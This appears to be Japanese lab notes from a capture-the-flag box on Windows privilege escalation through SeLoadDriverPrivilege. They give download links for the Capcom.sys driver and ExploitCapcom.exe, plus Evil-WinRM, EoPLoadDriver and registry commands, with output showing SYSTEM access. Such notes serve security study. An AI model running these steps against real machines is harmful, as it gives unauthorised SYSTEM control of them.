 # エクスプロイトとドライバファイル（コンパイル不要）

- [Capcom.sys (mega.nz)](https://mega.nz/file/GiBTmCRD#cRz3XWMEojDvrd0LHPE3GpXKkYdikITvco8qKwmdgzQ)
- [ExploitCapcom.exe (github - clubby789)](https://github.com/clubby789/ExploitCapcom/releases/tag/1.0)

（sysファイルはドライバファイルの一つ。接続されたデバイスを制御するためのデータが含まれてる。）

<br>

**SeLoadDriverPrivilege**という権限があるから当たり前かのようにドライバのロードが出来る。

# 使い方

Exploit.Capcom.exeひとつでドライバのロードからコマンド実行まで可能。

```
*Evil-WinRM* PS C:\Users\svc-print> .\ExploitCapcom.exe LOAD C:\Users\svc-print\Capcom.sys
[*] Service Name: xmgrpdtl@õµó5
[+] Enabling SeLoadDriverPrivilege
[+] SeLoadDriverPrivilege Enabled
[+] Loading Driver: \Registry\User\S-1-5-21-2633719317-1471316042-3957863514-1104\???????????????????
NTSTATUS: 00000000, WinError: 0

*Evil-WinRM* PS C:\Users\svc-print> .\ExploitCapcom.exe EXPLOIT whoami
[*] Capcom.sys exploit
[*] Capcom.sys handle was obtained as 0000000000000064
[*] Shellcode was placed at 00000241542B0008
[+] Shellcode was executed
[+] Token stealing was successful
[+] Command Executed
nt authority\system
```

#  [EoPLoadDriver](https://github.com/TarlogicSecurity/EoPLoadDriver/)

これだけで
- SeLoadDriverPrivilegeの付与
- HKEY_CURRENT_USER下へのレジストリキーの作成
- NTLoadDriverの実行
まで行ってくれる。

```
EOPLOADDRIVER.exe RegistryServicePath DriverImagePath
```

新しくCapcom用にロードするならたとえば
```
.\EOPLOADDRIVER.exe System\CurrentControlSet\MyCapcom C:\Windows\svc-print\Downloads\Capcom.sys
```

<br>

ちなみに、ドライバのロードにはドライバサービス名をレジストリに登録する必要がある。

たとえば今回なら

```
*Evil-WinRM* PS C:\Users\svc-print> reg add HKCU\System\CurrentControlSet\CAPCOM /v ImagePath /t REG_SZ /d "\??\C:\Users\svc-print\Capcom.sys"
The operation completed successfully.

*Evil-WinRM* PS C:\Users\svc-print> reg add HKCU\System\CurrentControlSet\CAPCOM /v Type  /t REG_DWORD /d 1
The operation completed successfully.
```

このboxではすでにSeLoadDriverPrivilegeの権限があったが、そうでない場合はこのレジストリの設定を行ったあとにEnableSeLoadDriverPrivilege.exe
とかをつかって権限を付与してやる。
